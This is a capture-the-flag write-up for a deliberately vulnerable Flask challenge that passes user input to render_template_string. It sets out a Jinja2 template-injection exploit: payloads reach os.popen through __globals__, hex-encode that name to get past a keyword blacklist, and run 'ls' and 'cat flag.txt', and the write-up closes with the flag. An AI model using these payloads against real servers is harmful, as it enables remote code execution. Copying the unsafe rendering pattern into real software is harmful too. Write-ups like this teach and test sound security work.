

# Build-A-Website

## Description
I made a website where y'all can create your own websites! Should be considerably secure even though I'm a bit rusty with Flask.

## Files
Provided source code

## Code
### `app.py`
```python
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, redirect, url_for
from base64 import b64encode, b64decode

app = Flask(__name__)

@app.route('/')
def index():
  # i dont remember how to return a string in flask so
  # here goes nothing :rooNervous:
  return render_template_string(open('templates/index.html').read())

@app.route('/backend')
def backend():
  website_b64 = b64encode(request.args['content'].encode())
  return redirect(url_for('site', content=website_b64))

@app.route('/site')
def site():
  content = b64decode(request.args['content']).decode()
  #prevent xss
  blacklist = ['script', 'iframe', 'cookie', 'document', "las", "bas", "bal", ":roocursion:"] # no roocursion allowed
  for word in blacklist:
    if word in content:
      # this should scare them away
      content = "*** stack smashing detected ***: python3 terminated"
  csp = '''<head>\n<meta http-equiv="Content-Security-Policy" content="default-src 'none'">\n</head>\n'''
  return render_template_string(csp + content)
```

## Methodology
We can input any html code which on the next page will get rendered.




We are however forbidden to use some words. The author deliberatly uses template rendering in an unsafe manner with this method `render_template_string()`. Since flask natively uses `jinja2` as a templeting engine, we can do an `SSTI` to have `RCE`.


We have code exec.

## Exploit
We can use a commonly known `jinja` payload to have `rce` with this

`{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

This will get blocked because there is a forbidden substring `bal` in `__globals__`. We will `hex` this string to bypass the check.

`{{request.application["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"].__builtins__.__import__('os').popen('ls').read()}}`

## Loot
`{{request.application["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"].__builtins__.__import__('os').popen('ls').read()}}`


`{{request.application["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"].__builtins__.__import__('os').popen('cat flag.txt').read()}}`


## Flag
**ictf{:rooYay:_:rooPOG:_:rooHappy:_:rooooooooooooooooooooooooooo:}**